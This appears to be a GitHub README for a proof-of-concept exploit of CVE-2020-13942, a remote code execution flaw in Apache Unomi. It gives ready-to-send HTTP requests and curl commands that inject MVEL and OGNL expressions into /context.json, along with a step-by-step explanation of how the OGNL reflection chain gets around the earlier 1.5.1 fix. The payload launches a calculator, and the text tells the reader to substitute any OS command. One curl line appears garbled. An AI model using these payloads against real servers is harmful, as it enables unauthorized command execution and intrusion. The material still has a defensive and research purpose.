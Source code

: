 # CVE-2020-13942
## CVE-2020-13942 POC by Eugene Rojavski

Original blog post about the vulnerability:
https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/

There are two RCE vectors: through MVEL injection and through OGNL injection. Both vectors target different code though the payloads look relatively similar.
The previous CVE fix https://nvd.nist.gov/vuln/detail/CVE-2020-11975 tried to limit execution of OGNL expressions, but completely missed MVEL. The CVE-2020-13942 bypasses the fix made in 1.5.1.

Send the following HTTP requests using BurpSuite or curl to context.js\json exposed by Unomi server and get RCE. Change Host and Content-length according to your target URL and OS command.
Both POCs can get `HTTP/1.1 400 Header Folding` in response, which means `\r\n` are messed up in the payload, try copy-pasting it once more.

### 1) MVEL POC

#### HTTP request

```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 486

{
    "filters": [
        {
            "id": "boom",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"gnome-calculator\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "boom"
}
```

#### Curl
```
curl -X POST http://localhost:8181/context.json --header 'Content-type: application/json' --data '{"filters":[{"id":"boom ","filters":[{"condition":{"parameterValues":{"propertyName":"prop","comparisonOperator":"equals","propertyValue":"script::Runtime r=Runtime.getRuntime();r.exec(\"gnome-calculator\");"},"type":"profilePropertyCondition"}}]}],"sessionId":"boom"}'
```

### 2) OGNL POC

OGNL POC bypassed the ClassLoader restriction introduced by 1.5.1 version. Using Java reflections API it's possible to create an object without triggering ClassLoader.loadClass method that restricts the evaluated OGNL expressions.

The payload OGNL expression breakdown:
1.	The first expression `#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")` creates a java.lang.Runtime Class object, where #this is the reference to the context object. 
2.	The second expression `#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]` gets the methods list of the Runtime class through reflections and chooses getRuntime method out of the list. The `{^ #this.name.equals(\"getRuntime\")}` part of the expression looks for a Method with the name getRuntime and returns a list of the Methods that match the condition; the first and the only Method of this list is getRuntime. 
3.	The third expression `#runtimeobject = #runtimemethod.invoke(null,null)` calls the getRuntime() method and obtains the Runtime object. 
4.	The fourth expression `(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0])` gets the methods of the Runtime class and retrieves Runtime.exec() with a single String argument out of the method list. 
5.	The final expression `#execmethod.invoke(#runtimeobject,\"gnome-calculator\")` calls Runtime.exec() with the specified argument.


#### HTTP request
```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 1068

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\" gnome-calculator\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"boom"
} 
```

#### Curl

```
curl -XPOST http://localhost:8181/context.jsonder 'Content-Type: application/json' --data '{"personalizations":[{"id":"gender-test","strategy":"matching-first","strategyOptions":{"fallback":"var2"},"contents":[{"filters":[{"condition":{"parameterValues":{"propertyName": "(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"gnome-calculator\"))","comparisonOperator":"equals","propertyValue":"male"},"type":"profilePropertyCondition"}}]}]}],"sessionId":"boom"}'
```



### Disclaimer
All the information provided on this page is for educational purposes only. The information on this website should only be used to enhance the security for your computer systems and not for causing malicious or damaging attacks.

You should not misuse this information to gain unauthorized access into computer systems. Also be aware, performing hack attempts on computers that you do not own, without written permission from owners, is illegal.

I will not be responsible for any direct or indirect damage caused due to the usage of the information provided on this website.

